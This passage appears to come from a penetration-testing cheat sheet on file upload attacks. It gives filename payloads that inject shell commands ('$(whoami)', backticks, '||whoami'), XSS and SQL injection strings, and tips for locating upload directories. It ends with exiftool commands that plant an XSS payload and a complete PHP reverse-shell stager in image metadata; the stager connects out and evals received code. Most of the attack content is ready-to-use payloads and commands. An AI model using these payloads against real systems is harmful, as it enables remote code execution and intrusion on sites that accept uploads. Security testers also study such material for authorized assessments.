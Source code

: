To access the file only the part before the null byte might be called, i.e., `revshell.php`.

## Attacks

### Filename Injection

When the uploaded file name is refected on the page. If the OS moves the file with a command such as `mv <file> /tmp`, then we achieve RCE.

```
# command execution
file$(whoami).jpg
file`whoami`.jpg
file.jpg||whoami
```

Similarly, an XSS or SQLi attack can be performed.

```
# xss
<script>alert(window.origin);</script>
# sql
file';select+sleep(5);--.jpg
```

### Uploads Directory

* Check source code after uploading a file.
* Fuzz for an `/uploads` directory, and then for the file itself.
* Forcing error messages that might disclose the uploads directory:
  * Uploading a file that already exists or sending 2 identical requests simultaneously.
  * Uploading a file with a very (very) long name.

### Metadata Injection

If the web application displays the image's metadata, a payload can be injected in one of the metadata's fields. When the image's metadata is displayed, the payload will be triggered.&#x20;

```bash
# injecting an XSS payload into the Comment field
exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' image.jpg
```

{% code overflow="wrap" %}
```bash
# injecting a reverse shell payload into the Document Name field
exiftool -DocumentName='/*<?php /**/ error_reporting(0); $ip = "127.0.0.1"; $port = 4444; if (($f = "stream_socket_client") && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = "stream"; } elseif (($f = "fsockopen") && is_callable($f)) { $s = $f($ip, $port); $s_type = "stream"; } elseif (($f = "socket_create") && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = "socket"; } else { die("no socket funcs"); } if (!$s) { die("no socket"); } switch ($s_type) { case "stream": $len = fread($s, 4); break; case "socket": $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a["len"]; $b = ""; while (strlen($b) < $len) { switch ($s_type) { case "stream": $b .= fread($s, $len-strlen($b)); break; case "socket": $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS["msgsock"] = $s; $GLOBALS["msgsock_type"] = $s_type; eval($b); die(); __halt_compiler();' duck.jpg
     1 image files updated
```
{% endcode %}
